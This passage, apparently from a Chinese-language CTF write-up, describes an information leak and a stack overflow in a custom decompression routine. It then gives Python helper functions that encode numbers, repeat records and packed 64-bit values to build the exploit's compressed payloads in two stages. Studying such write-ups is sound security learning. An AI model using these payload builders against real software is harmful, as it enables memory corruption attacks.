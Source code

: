 * 程序会打印出数据, 可以造成泄漏,  
* 可以写过来数据后再次构造重复,然后造成栈溢出.

为此, 准备了几个函数:

```python
# 0xff 后跟的数据, 数据是7bit拼接起来的, 可参考压缩函数内的伪代码
def handle_number(number, sig=0):
    string = ""
    if sig > 0: # 负数
        number = (~(number) + 1) & 0xffffffffffffffff
    while(1):
        if (number > 0x7f):
            var = number 
            string += "{:02x}".format((var | 0x80) & 0xff)
            number >>= 7 
        else:
            string += "{:02x}".format(number)
            return string

# 设置重复数据, 用于第一段利用
def repeat(characters, repetition, sig = 0):
    if sig == 0:
        return "ff" + handle_number(characters) + handle_number(repetition)
    if sig == 1:
        return "ff" + handle_number(characters, 1) + handle_number(repetition)
    # 后面这俩没啥用, 因为不需要repetition为负数.
    if sig == 2:
        return "ff" + handle_number(characters) + handle_number(repetition, 1)
    if sig == 3:
        return "ff" + handle_number(characters, 1) + handle_number(repetition, 1)

# 处理数据,转化为压缩数据内储存的形式. (这段写的不好)
def handle_datas(datas):
    string = ""
    for data in datas:
        string += handle_data(data)
    return string

def handle_data(data):
    string = ""
    for i in p64(data):
        string += "{:02x}".format(i)
    return string


# 压缩一段数据, 用来第二段利用
def compress(datas, repetitions):
    comp = ""
    for data in datas:
        comp += handle_data(data)
    comp += "ff" + handle_number(len(datas) * 0x8) + handle_number(repetitions-1)
    return comp

# 填充 `1*8` 个数据
def pad8(len):
    return '11' * len * 8
```
